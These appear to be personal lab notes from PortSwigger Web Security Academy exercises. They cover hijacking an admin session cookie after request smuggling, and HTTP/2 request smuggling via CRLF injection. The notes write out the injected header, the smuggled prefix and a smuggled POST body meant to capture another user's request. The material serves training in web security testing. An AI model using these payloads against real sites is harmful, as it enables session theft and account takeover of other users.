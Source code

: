 - Finally filter the result to get 302 which is admin user's response that is received by the attacker
![[Pasted image 20240515132023.png]]

- Now we can replace the session cookie in Cookie editor on home page which is available before login. And able to log in as Admin without credentials.
![[Pasted image 20240515132639.png]]


# HTTP/2 request smuggling via CRLF injection
- In home page there is a search functionality and it records the recent search history.
- Noticed that search history has got reset, after removing the session cookie and sending the request. [confirming that it's tied to the session cookie]

- After removing the unwanted headers, add a new header via *Request Headers* and setting the protocol to  HTTP/2.

- New header ,
**Name**
```
foo
```
**Value**
```
bar\r\n 
Transfer-Encoding: chunked
```
![[Pasted image 20240515150711.png]]

- Attempt to smuggle arbitrary prefix
```
0 

SMUGGLED
```
- Noticed that every second request sent, receives 404 response[confirms that we caused the back-end to append the subsequent request to the smuggled prefix]

![[Pasted image 20240515150851.png]]

![[Pasted image 20240515150946.png]]

- Change the body to following,
```
0 

POST / HTTP/1.1 
Host: YOUR-LAB-ID.web-security-academy.net 
Cookie: session=YOUR-SESSION-COOKIE 
Content-Length: 800 

search=x
```
